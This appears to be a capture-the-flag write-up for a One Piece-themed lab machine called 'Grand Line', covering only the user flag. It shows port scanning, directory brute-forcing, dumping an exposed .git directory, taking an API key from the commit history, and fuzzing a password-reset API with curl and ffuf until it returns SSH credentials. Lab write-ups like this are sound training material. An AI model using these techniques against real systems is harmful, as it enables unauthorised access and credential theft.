

# CTF: Grand Line


  

## Description

> I am going to be the pirate king!

## Write-up

Reference to the anime "One Piece". We have to find the user and root flag.

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))

8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have three open ports, 22, 80 and 8081. Let's check the web server on port 80.

```bash
http://$IP
```


We found a page who said 'have you tried the other port ?'. Let's check the web server on port 8081.

We can go to the web server on port 8081.

```bash
http://$IP:8081
```

We have a flask web server running on port 8081. We have buttons to navigate to different pages.   
We can go to /login and have a page "forgot password" with a button to reset the password.

When we go we have a form to reset the password. We can try to reset the password with a random username like `luffy`.



A request was sent but the page refreshes and nothing happens. We can retry the same request with a random username like `luffy` and check the network tab in the browser console.

We can see a POST request to `/api/luffy` with a response `Invalid API Key`.

In the form-data, we can see a `key` field with a value `NULL`

So we know we have to found an API key to reset the password.

After that, let's check with a `gobuster` if we can find any hidden directories.

```bash
gobuster dir -u http://$IP:8081 -w /usr/share/wordlists/dirb/common.txt
```

Results : 
```bash
/lost
```

We found a hidden directory `/lost`. Let's check the web server on port 8081 with the path `/lost`.

```bash
http://$IP:8081/lost
```

Find a `note.txt` file with the following content:

```bash
You're stubborn, I told you everything is on the other port, have you tried nmap ?
```

We can try other `gobuster` scan on port 8081 and `/lost` directory.

```bash
gobuster dir -u http://$IP:8081/lost -w SecLists/Discovery/Web-Content/raft-large-extensions-lowercase.txt
```

Results : 
```bash
.git
```

We found a hidden directory `/.git`. Let's check the web server on port 8081 with the path `/.git`.

```bash
http://$IP:8081/.git
```

We have to download the `.git` directory to extract the source code. We can use `gitdumper.sh` to download the `.git` directory.

```bash
wget --recursive http://<IP>/lost/.git -q
```

We can use `gitdumper.sh` to download the `.git` directory.

```bash
cd <IP>/lost
git log
```

We can see the commit history with filtered commit add and delete files.

```bash
git log --patch > keys
cat keys | grep "key"
-    if(data['key']=='<KEY>'):
-    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
+    if(data['key']=='<KEY>'):
+    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
```

We can see the key in the commit history. We can use this key to reset the password.

```
curl -X POST http://10.10.215.247:8081/api/luffy -H "Content-Type: application/json" -d '{"key":"<KEY>"}'
{"username":"luffy","password":"ThisIsNotMyPassword"}
```

It's not the password but we can try to brute force to find the correct user password.

We can use `fuff` to brute force the password.

```bash
ffuf -w names.txt -u http://<IP>:8081/api/FUZZ -X POST -H "Content-Type: application/json" -d '{"key":"<KEY>"}' -fr "error" -fs 16
{"username":"<USERNAME>","password":"<PASSWD>"}
```


We found the password and username. We can connect to ssh with credentials. After connecting to the ssh we can find the user flag.

**Well done! You found the user flag!**


